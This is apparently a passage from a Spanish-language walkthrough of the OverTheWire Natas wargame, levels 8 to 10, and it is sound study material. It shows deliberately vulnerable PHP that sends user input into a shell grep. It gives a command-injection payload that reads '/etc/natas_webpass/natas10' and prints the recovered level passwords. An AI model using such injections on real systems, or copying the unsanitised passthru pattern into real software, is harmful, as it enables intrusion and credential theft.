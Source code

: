 ~~~
    print "Wrong secret";
    }
}
?>
~~~

abriendo la consola e iniciando PHP con php -a. Podemos obtener la clave secreta de la clave codificada descodificandola en base64
~~~
php -a
echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));

oubWYf2kBq
~~~

# Natas9
viendo el codigo
~~~
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
~~~
utilizamos los comandos
~~~
grep -i password dictionary.txt
cat /etc/natas_webpass/natas10
grep -i ; cat /etc/natas_webpass/natas10

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
~~~

# Natas10
codigo
~~~
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
~~~
